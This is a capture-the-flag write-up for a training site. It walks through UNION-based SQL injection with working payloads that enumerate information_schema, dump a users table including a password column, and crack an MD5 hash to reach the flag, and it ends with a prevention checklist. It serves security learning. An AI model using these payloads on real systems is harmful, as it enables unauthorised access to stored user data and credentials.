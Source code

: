 # SQL Injection Exploit Guide

## 1. Determine the Number of Columns

To begin exploiting SQL injection, you must first determine the number of columns returned by the query. Start by testing with a single column:

```sql
42 UNION SELECT null
```

If you receive the error "The used SELECT statements have a different number of columns," it indicates that there are more columns. Incrementally increase the number of `null` values until the query executes without error.

Test if there is two columns:

```sql
42 UNION SELECT null, null;
```

The query executes successfully, you know the correct number of columns is two.

## 2. Retrieve Table Schema and Types

Next, identify the schema and types of tables in the database. This is critical to understanding the structure of the database:

```sql
42 UNION SELECT table_schema, table_type FROM information_schema.tables
```

The results include schemas with base tables (those that hold actual data), such as `Member_Brute_Force`, `Member_Sql_Injection`, `Member_guestbook`, and `Member_images`.

## 3. Identify Table Names in Each Schema

To locate specific table names within these schemas, use:

```sql
42 UNION SELECT TABLE_SCHEMA, TABLE_NAME FROM information_schema.columns
```

Exclude results related to the `information_schema` schema, as it does not contain user data. Focus on results like:

- `Member_Brute_Force/db_default`
- `Member_Sql_Injection/users`
- `Member_guestbook/guestbook`
- `Member_images/list_images`
- `Member_survey/vote_dbs`

For this exploit, we will focus on the `users` table in the `Member_Sql_Injection` schema.

## 4. Find Column Names in Tables

Retrieve the column names from the target table:

```sql
42 UNION SELECT table_name, column_name FROM information_schema.columns
```

This query reveals the specific columns available within the tables, such as `user_id`, `first_name`, `last_name`, `town`, `country`, `planet`, `Commentaire`, and `countersign` in the `Member_Sql_Injection.users` table.

## 5. Extract Data from Member_Sql_Injection.users Table

Now, extract data from the columns in the `Member_Sql_Injection.users` table. Start with the "user_id" and "first_name" columns:

```sql
42 UNION SELECT user_id, first_name FROM Member_Sql_Injection.users
```

Then, extract data from the "last_name" and "town" columns:

```sql
42 UNION SELECT last_name, town FROM Member_Sql_Injection.users
```

Then, extract data from the "country" and "planet" columns:

```sql
42 UNION SELECT country, planet FROM Member_Sql_Injection.users
```

Then, extract data from the "Commentaire" and "countersign" columns:

```sql
42 UNION SELECT Commentaire, countersign FROM Member_Sql_Injection.users
```

## 6. Decode the Final Flag

The final query returns data that includes instructions for obtaining the flag:

```sql
ID: 42 UNION SELECT Commentaire, countersign FROM Member_Sql_Injection.users
First name: Decrypt this password -> then lower all the char. Sh256 on it and it's good !
Surname: 5ff9d0165b4f92b14994e5c685cdce28
```

To decode:

1. Decode the MD5 hash `5ff9d0165b4f92b14994e5c685cdce28` to obtain `FortyTwo`.
2. Hash `fortytwo` with SHA256 to yield the final flag:

`10a16d834f9b1e4068b25c4c46fe0284e99e44dceaf08098fc83925ba6310ff5`

## Prevention

1. **Use Prepared Statements**: Prepared statements or parameterized queries separate SQL code from data, preventing SQL injection.
2. **Employ ORM Libraries**: Object-Relational Mapping (ORM) tools abstract away SQL and automatically handle input escaping.
3. **Escape User Inputs**: If you cannot use prepared statements, ensure user input is properly escaped.
4. **Validate and Sanitize Inputs**: Check user inputs against expected formats and sanitize them to remove harmful characters.
5. **Limit Database Privileges**: Apply the principle of least privilege, giving users only the permissions they absolutely need.
6. **Error Handling**: Show generic error messages to users and log detailed errors securely on the server.
7. **Regular Updates**: Regularly update your DBMS and libraries to protect against known vulnerabilities.

## Resources

- [Information Schema Tables](https://www.mssqltips.com/sqlservertutorial/196/information-schema-tables/)
- [Information Schema Columns](https://www.mssqltips.com/sqlservertutorial/183/information-schema-columns/)
- [MD5 Encrypt/Decrypt](https://10015.io/tools/md5-encrypt-decrypt)
- [SHA256 Encrypt/Decrypt](https://10015.io/tools/sha256-encrypt-decrypt)
